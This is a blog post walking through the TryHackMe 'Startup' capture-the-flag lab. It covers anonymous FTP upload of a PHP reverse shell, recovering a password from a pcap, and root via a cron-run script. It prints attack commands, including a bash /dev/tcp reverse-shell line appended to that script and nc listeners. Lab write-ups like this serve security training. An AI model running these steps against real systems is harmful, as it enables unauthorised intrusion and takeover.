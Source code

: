 ```yaml
---
layout: post
permalink: /posts/thm/startup
title: "Startup"
---
```


We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck! </br>

Scan the target machine with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/startup/nmap.png)

From the scan result we can see there is open port 80 HTTP, 22 SSH and 21 FTP. We can also notice that anonnymous login is enabled on FTP. Let's login and see whether we will be able to find something there.

```
ftp <IP>
```

When it promped for username provide `anonymous`

![ftp](/assets/images/thm/startup/ftp.png)

There are two files and one directory which is empty. You can download the files with the following command `get <FILLE_NAME>` </br>

Let's read the text file.

![notice](/assets/images/thm/startup/notice.png)

Hmm... probably we'll be able to upload file into FTP which we'll be accessible through the website. I wasn't able to open the jpg file. Let's visit the website.

![website](/assets/images/thm/startup/website.png)

Nothing useful. Try to scan for hidden directories. I'm going to use gobuster for that purpose.

```
gobuster dir -u http://<IP>/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 
```

![gobuster](/assets/images/thm/startup/gobuster.png)

We have found `files` directory. Let's visit it.

![files](/assets/images/thm/startup/files.png)

These are the files from FTP which we had visited. Let's try to upload reverse shell script. I'm going to use this one `https://github.com/pentestmonkey/php-reverse-shell` Don't forget to change the IP address with your attacking machine IP and desired port. </br>

Go again to the FTP server and navigate to `ftp` folder. From there you can execute the following command `put <FILE_NAME>` to upload your reverse shell script.

![upload](/assets/images/thm/startup/upload.png)

Your script has been uploaded successfully. Go and visit `http://<IP>/files/ftp/` to see whether we'll find your script.

![script](/assets/images/thm/startup/script.png)

Nice, it's here. Start netcat listener on your machine with the port you set in the script.

```
nc -lvnp <PORT>
```

Once the listener is set try to reach the script. It will try loading and you should have shell access in your terminal.

![shell](/assets/images/thm/startup/shell.png)

Now try to find the secret spicy soup recepi. </br>

If list the root directory `/` you will find an interesting folder `incidents`.

![incidents](/assets/images/thm/startup/incidents.png)

How we can download this file. I'm going to start a python server.

```
python -m SimpleHTTPServer
```

Now on your machine execute the following command to download the pcapng file.

```
wget http://<TARGET_MACHINE_IP>:8000/suspicious.pcapng
```

Now we are going to use Wireshark to open thw file.

![wireshark](/assets/images/thm/startup/wireshark.png)

Looking trough the packets I find out that someone has also already hack Spice Hut. Right click on packet 35 and select Follow -> TCP Stream

![pass](/assets/images/thm/startup/pass.png)

Someone has tried to see whether user lennie has any sudo rights. I tried to ssh with this username and password but it wasn't successfull.

![ssh](/assets/images/thm/startup/ssh.png)

Then I decided to try to switch the user from the shell which we have. but first wee need to stabilize our shell.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

`CTRL+Z` to background the process and go back to the local host. Execute `stty raw -echo` and after that `fg + ENTER` to go back to the reverse shell.

![stabilize](/assets/images/thm/startup/stabilize.png)

Now we should be able to switch to lennie

```
su lennie
```

Try to find the user flag. </br>

Now we need to find a way to escalate our priviliges. As awlays I tried to check whether lennie has any sudo right with `sudo -l` but lennie doesn't have any rights. What can we do then? There is a folder `scripts` in lennie home directory, let's visit it. There are two files.

![ls-la](/assets/images/thm/startup/ls-la.png)

planner.sh is owned by root and we are not able to write in it but we can read it.

![cat](/assets/images/thm/startup/cat.png)

The script can executes other scrpit print.sh

![print](/assets/images/thm/startup/print.png)

Probably planner.sh is runned by cronjob but let's check that. We are going to use `pspy64`. It's a tool which snoop on processes without need root permissions. <br>

start python server on your machine

```
python3 -m httpp.server
```

Download it on the target machine

```
wget http://<YOUR_IP>:8000/pspy64
```

![pspy64](/assets/images/thm/startup/pspy64.png)

![pspy-scan](/assets/images/thm/startup/pspy-scan.png)

As we thought planner.sh is run by cronjob as root </br>

So, we are the owner of print.sh. We can add some additional script in it. Here you can find some reverse shell cheat sheet `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` </br>

Change the script with your IP address

```
echo "bash -i >& /dev/tcp/<IP>/5555 0>&1" >> /etc/print.sh
```

We also need to start listener on our machine

```
nc -lvnp 5555
```

Wait a little bit and the script will be executed automatically via cronjob. 

![root](/assets/images/thm/startup/root.png)

Here we go, we have root access.